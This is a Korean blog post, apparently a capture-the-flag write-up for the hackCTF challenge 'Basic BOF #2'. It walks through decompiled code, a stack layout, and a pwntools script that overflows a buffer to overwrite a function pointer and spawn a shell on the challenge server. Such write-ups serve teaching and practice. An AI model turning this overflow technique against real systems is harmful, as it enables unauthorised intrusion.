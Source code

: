```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #2"
date:   2020-02-09
categories: hackCTF/pwnable
tags: [hackCTF] [pwnable]
permalink: '/hackCTF/pwnable'
---
```


hackCTF pwnable 2번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-8Ch]
  void (*v5)(void); // [esp+8Ch] [ebp-Ch]

  v5 = (void (*)(void))sup; // sup 함수의 주소를 v5에 저장
  fgets(&s, 133, stdin); // stdin으로부터 133바이트를 입력 받아 s에 저장
  v5(); // v5가 가리키는 함수 실행
  return 0;
}
```
## ida - sup
```c
int sup()
{
  return puts(&s); // s에 저장된 문자열 출력
}
```

## ida - shell
```c
int shell()
{
  return system("/bin/dash"); // 쉘을 띄울 수 있다!
}
```
<br>

메모리 구조를 정리해보자.<br><br>

***

| sfp |    ebp   |
|:---:|:--------:|
| ... |          |
|  v5 | esp+0x8C |
| ... |          |
|  s  |  esp+0xC |
| ... |          |
| esp |   esp+0  |

***

<br>
목표 : shell 함수 실행 <br>
취약점 : fgets(&s, 133, stdin)<br><br>
∴ v5를 shell의 주소로 덮어 shell()을 실행시키자.<br><br><br>

+) 쉘의 주소는 다음과 같다.  
![0201](https://drive.google.com/uc?id=18Rgv1QIq_0rxABl08a1KZjNBc3GLtHi4)


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3001)

payload = "A"*(0x8C-0xC) + p32(0x0804849B)

p.sendline(payload)

p.interactive()
```
## 결과  
![0202](https://drive.google.com/uc?id=1GApVrN8IkoCUKXN559Ldluu8rjXOXgtH)
